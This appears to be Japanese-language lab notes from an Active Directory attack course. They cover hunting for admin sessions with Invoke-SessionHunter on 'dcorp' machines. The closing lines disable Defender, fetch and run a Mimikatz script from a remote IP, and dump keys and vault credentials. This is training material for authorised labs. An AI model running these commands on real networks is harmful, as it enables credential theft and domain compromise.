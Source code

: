 ## 1. 以下の項目を実施する。
	- ドメイン管理者セッションが利用可能な対象ドメイン内のマシンを特定する。
	- 上記のマシンを侵害し、ドメイン管理者に権限を昇格させる。
		- docrp-ciへのアクセスを使用する。
		- 派生ローカル権限を使用する。

---
## 2. Tools
- [Invoke-SessionHunter](https://github.com/Leo4j/Invoke-SessionHunter)

---

## 列挙(Incoke-SessionHunter.ps1)
Invoke-SessionHunter.ps1はすべてのリモートマシン上のアクティブセッションをリストアップすることができる。
このスクリプトは、リモートマシンのRemtoeレジストリサービスに接続する。
リモートマシンの管理者アクセスは必要ない

---
1. 以下のコマンドを実行し、セッションをリストアップ
```
C:\AD\Tools>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
[snip] 
C:\AD\Tools> Import-Module .\Invoke-SessionHunter.ps1
C:\AD\Tools> Invoke-SessionHunter -NoPortScan -RawResults | select Hostname,UserSession,Access 
[+] Elapsed time: 0:0:51.674 
 
HostName       UserSession         Access 
--------       -----------         ------ 
dcorp-appsrv   dcorp\appadmin       False 
dcorp-ci       dcorp\ciadmin        False 
dcorp-mgmt     dcorp\mgmtadmin      False 
dcorp-mssql    dcorp\sqladmin       False 
dcorp-dc       dcorp\Administrator  False 
dcorp-mgmt     dcorp\svcadmin       False 
us-dc          US\Administrator     False 
dcorp-adminsrv dcorp\appadmin        True 
dcorp-adminsrv dcorp\srvadmin        True 
dcorp-adminsrv dcorp\websvc          True 
```

- targetを絞り込む方法
```
C:\AD\Tools> cat C:\AD\Tools\servers.txt 
DCORP-ADMINSRV 
DCORP-APPSRV 
DCORP-CI 
DCORP-MGMT 
DCORP-MSSQL 
C:\AD\Tools> Invoke-SessionHunter -NoPortScan -RawResults -Targets C:\AD\Tools\servers.txt | select Hostname,UserSession,Access 
[+] Elapsed time: 0:0:3.932 
 
HostName       UserSession     Access
--------       -----------     ------ 
DCORP-APPSRV   dcorp\appadmin   False 
DCORP-CI       dcorp\ciadmin    False 
DCORP-MGMT     dcorp\mgmtadmin  False 
DCORP-MSSQL    dcorp\sqladmin   False 
DCORP-MGMT     dcorp\svcadmin   False 
DCORP-ADMINSRV dcorp\appadmin    True 
DCORP-ADMINSRV dcorp\srvadmin    True 
DCORP-ADMINSRV dcorp\websvc      True
```

[dcorp-adminsrv]: PS C:\Users\studentx\Documents> $ExecutionContext.SessionState.LanguageMode 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1
[dcorp-mgmt]: PS C:\Users\srvadmin\Documents> $env:username 
[dcorp-mgmt]: PS C:\Users>iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
[dcorp-mgmt]: PS C:\Users> Invoke-Mimi -Command '"sekurlsa::ekeys"' 
[dcorp-mgmt]: PS C:\Users\mgmtadmin\Documents> Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"' 